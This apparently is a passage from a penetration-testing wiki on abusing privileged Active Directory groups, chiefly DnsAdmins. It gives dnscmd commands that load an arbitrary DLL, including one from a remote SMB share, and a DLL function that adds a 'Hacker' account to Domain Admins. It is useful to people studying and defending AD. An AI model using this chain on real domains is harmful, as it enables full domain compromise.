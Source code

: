 ## Backup Operators <a href="#backup-operators" id="backup-operators"></a>

As with `Server Operators` membership, we can access the `DC01` file system if we belong to `Backup Operators`:

![](../../.gitbook/assets/a7.png)

## DnsAdmins

### Resume

A user who is member of the **DNSAdmins** group or have **write privileges to a DNS** server object can load an **arbitrary DLL** with **SYSTEM** privileges on the **DNS server**.\
This is really interesting as the **Domain Controllers** are used very frequently as DNS servers.

### Execute

Then, if you have a user inside the DNSAdmins group, you can make the DNS server load an arbitrary DLL with SYSTEM privileges. You can make the DNS server load a local or remote (shared by SMB) DLL file executing:

```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
		system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
		system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

So, when the **DNSservice** start or restart, a new user will be created.

Even having a user inside DNSAdmin group you **by default cannot stop and restart the DNS service.** But you can always try doing:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

****[**Learn more about this privilege escalation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

## **AD Recycle Bin**
